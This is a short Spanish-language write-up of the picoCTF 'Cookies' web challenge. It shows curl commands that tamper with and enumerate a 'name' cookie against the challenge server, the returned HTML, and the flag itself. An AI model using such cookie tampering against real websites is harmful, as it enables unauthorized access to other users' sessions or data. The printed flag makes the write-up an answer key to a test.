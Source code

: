 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución 1
revisé las cookies de la página, y al ver que tenía una llamada "name" con el valor -1, decidí mandar varias peticiones cambiando ese valor en cada una hasta llegar a la 18, que fue la que me dio la bandera.
usé el comando
```
curl http://mercury.picoctf.net:64944/check -H "Cookie: name=18"
```
conseguí
```
└─$ curl http://mercury.picoctf.net:64944/check -H "Cookie: name=18"

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

* Connection #0 to host mercury.picoctf.net left intact
</html>
```
## Solución 2
```
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

```
## Notas
se puede hacer un for en linux para 
## Referencias
